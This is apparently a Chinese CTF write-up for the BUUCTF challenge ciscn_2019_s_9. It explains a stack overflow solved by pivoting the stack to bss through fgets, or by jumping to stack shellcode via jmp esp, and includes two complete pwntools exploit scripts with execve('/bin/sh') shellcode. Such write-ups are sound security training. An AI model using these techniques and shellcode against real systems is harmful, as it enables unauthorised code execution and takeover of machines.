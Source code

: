 # week4
## BUUCTF-ciscn_2019_s_9
有限的栈溢出

<img width="343" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/8abd6390-b5ca-4c08-94e4-1caea32111cc">

程序有读写执行段（栈也是）

<img width="678" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/15ae9e31-3339-49d4-864d-4f112964fb69">

考虑使用栈迁移将栈迁到bss段上 然后去执行shellcode 但无法之间向bss段中写入shellocode

可以利用fgets函数 可以看到fgets函数写入的地址是由ebp传递的（值为ebp-0x20）而我们在函数pwn返回时可以控制ebp的值

那么溢出覆盖返回地址跳回到fgets@main 此时fgets的参数是我们覆盖的ebp 实现往bss段中写入shellcode

再次执行到pwn函数的返回 进行第二次leave ret时便会将栈迁移到bss中 最终通过ret执行shellcode

### exp_ciscn_2019_s_9.py
```python
from pwn import *
# p = process("./ciscn_s_9")
p = remote("node4.buuoj.cn",27926)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

fgets_main = 0x08048512
bss = 0x804b000-0x500
hint = 0x8048551

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload = b'A' * 32
payload += p32(bss) + p32(fgets_main)

ru(">\n")

sl(payload)

payload = sc.ljust(36, b'\x90') + p32(bss-0x20)
raw_input("Ther")
sl(payload)

shell()
```

但由于栈其实也是读写执行的段 所以可以不用那么麻烦 将shellcode布置在栈上 然后通过hint中的jmp esp 再配合"sub esp, 0x28; call esp"

去执行shellcode
```python
from pwn import *
p = process('./ciscn_s_9')
# p = remote('node4.buuoj.cn',27898)
context(os = 'linux',arch = 'i386',log_level = 'debug')

shellcode_s ='''
xor eax,eax
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f 
mov ebx,esp
xor ecx,ecx
mov al,0xB
int 0x80
'''

shellcode_s = asm(shellcode_s)

payload =shellcode_s.ljust(0x24,b'a') + p32(0x08048554) + asm("sub esp,0x28;call esp")
raw_input("Ther")

p.sendlineafter(b">\n",payload)

p.interactive()
```

